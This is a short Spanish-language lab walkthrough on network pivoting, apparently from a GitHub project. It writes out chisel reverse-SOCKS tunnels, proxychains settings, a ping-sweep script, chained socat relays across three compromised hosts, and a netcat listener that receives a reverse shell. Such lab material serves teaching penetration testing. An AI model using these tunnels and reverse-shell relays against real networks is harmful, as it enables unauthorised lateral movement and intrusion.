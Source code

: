 # Little Pivoting Example

Propietario: Adrian Gisbert Cabello

1. Abrimos instancia de kali con server chisel: `./chisel server --reverse -p 33`

![Untitled](Little%20Pivoting%20Example/Untitled.png)

1. Abrimos nueva instancia kali y rompemos la primera máquina
    
    2.1. Hacemos un escaneo de la red con el siguiente script:
    
    `#!/bin/bash for host in $(seq 1 254); do        timeout 1 bash -c "ping -c 1 20.20.20.$host &>/dev/null" && echo "[+] HOST - 20.20.20.$host"done; wait`
    
    2.2. Hacemos escaneo nmap, la rompemos y conseguimos acceso a la maquina1. Nos pasamos los archivos socat, chisel y el script de hosts desde la kali a la maquina1
    
2. hacemos un `hostname -I` para ver nuevas interfaces de red y usamos el script para ver nuevos equipos en la segunda interfaz de red
    
    3.1. activamos socat en la primera maquina como cliente: `./chisel client 10.10.10.1:33 R:socks`
    
    ![Untitled](Little%20Pivoting%20Example/Untitled%201.png)
    
    3.2. En la maquina atacante añadimos en el archivo `/etc/proxychains4.conf` lo siguiente: `socks5 127.0.0.1:1080`
    
    ![Untitled](Little%20Pivoting%20Example/Untitled%202.png)
    
    3.3. Nos aseguramos de que quede descomentada la linea de `dynamic` y comentada la de `strict`
    
    ![Untitled](Little%20Pivoting%20Example/Untitled%203.png)
    
3. Hacemos escaneo nmap, la rompemos y conseguimos acceso a la maquina2. Nos pasamos los archivos socat, chisel y el script de hosts desde la maquina1 a la maquina2
    
    4.1. Con el comando hostname -I y el script de hosts encontramos la máquina3
    
4. En la maquina1 activamos socat contra la máquina kali atacante: `./socat TCP-LISTEN:1111,fork TCP:10.10.10.1:33`
    
    5.1. En la maquina2 conectamos chisel en modo cliente contra la maquina1 al puerto 1111: `./chisel client 20.20.20.2:1111 R:1111:socks`
    
    5.2. En la maquina atacante añadimos en el archivo `/etc/proxychains4.conf` lo siguiente: `socks5 127.0.0.1:1111` (preferiblemente antes de la linea del otro socks5)
    
5. Hacemos escaneo nmap, la rompemos y conseguimos acceso a la maquina3. Nos pasamos los archivos socat, chisel y el script de hosts desde la maquina2 a la maquina3
    
    6.1. Con el comando hostname -I y el script de hosts no encontramos nada más.
    
    6.2. En la maquina2 nos ponemos en escucha con socat a traves del puerto 443 (que es el que nos vendrá la reverseshell): ./socat TCP-LISTEN:443,fork TCP:20.20.20.2:442
    
    6.3. En la maquina1 nos ponemos en escucha con socat a traves del puerto 442 (que es el que nos vendrá de la maquina1): ./socat TCP-LISTEN:442,fork TCP:10.10.10.1:441
    
    6.4. En la maquina kali atacante nos ponemos en escucha con netcat por el puerto 441: nc -lvnp 441
    
    6.5. En la maquina3 enviamos la reverseshell a la maquina2 (en la interfaz de red que está con la maquina3) por el puerto 443.
    
    6.6. En la maquina kali ya tenemos conexión directa con la maquina3
    

Así está bien ordenado:

![Untitled](Little%20Pivoting%20Example/Untitled%204.png)
